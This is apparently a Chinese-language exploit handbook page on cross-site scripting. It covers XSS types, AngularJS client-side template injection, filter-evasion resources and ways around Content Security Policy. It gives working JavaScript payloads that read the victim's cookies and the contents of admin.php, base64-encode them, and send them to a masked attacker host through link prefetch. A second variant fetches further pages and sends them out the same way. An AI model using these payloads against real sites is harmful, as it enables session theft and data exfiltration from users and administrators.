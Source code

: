 # EXP手册-Cross-site scripting
## 基础知识
XSS攻击可以分为3类：存储型（持久型）、反射型（非持久型）、基于DOM。  
```
<scrpit>alert('XSS')</script>   
```
### 0x01 Client-Side Template Injection实现XSS攻击
- [XSS without HTML: Client-Side Template Injection with AngularJS](https://portswigger.net/blog/xss-without-html-client-side-template-injection-with-angularjs)
关键词：客户端模板注入、AngularJS
## Bypass
### 0x02 Bypass Filter
- XSS online利用平台：https://xsspt.com/
- [XSS Filter Evasion Cheat Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
### 0x03 Bypass CSP
同源：协议、域名、端口相同。    
- CSP online检测工具：https://csp-evaluator.withgoogle.com/

- [同源策略详解及绕过方法](http://zjw.dropsec.xyz/CTF/2016/12/13/%E5%90%8C%E6%BA%90%E7%AD%96%E7%95%A5%E8%AF%A6%E8%A7%A3%E5%8F%8A%E7%BB%95%E8%BF%87-%E8%BD%AC.html)

利用```<link>```绕过CSP，发送cookie
```
<script>
$.get("admin.php", function(data){
  var content = window.btoa(document.cookie).concat(window.btoa(data));
  var n0t = document.createElement("link");
  n0t.setAttribute("rel", "prefetch");
  n0t.setAttribute("href", "http://***/".concat(content));
  document.head.appendChild(n0t);
});
</script>
```
在上述基础上访问其他页面
```
<script>
getText = function(url, callback) 
{
    var request = new XMLHttpRequest();
    request.onreadystatechange = function()
    {
        if (request.readyState == 4 && request.status == 200)
        {
            callback(request.responseText); 
        }
    }; 
    request.open("GET", url);
    request.send();
}
function mycallback(data) {
  var content =concat(window.btoa(data));
  var n0t = document.createElement("link");
  n0t.setAttribute("rel", "prefetch");
  n0t.setAttribute("href", "http://*****/".concat(content));
  document.head.appendChild(n0t);
}
getText("admin.php", mycallback); 
</script>

```
## Reference
- [AMP HTML 关于XSS的CTF WRITE UP](https://xz.aliyun.com/t/2347)
AMP获取cookies的方法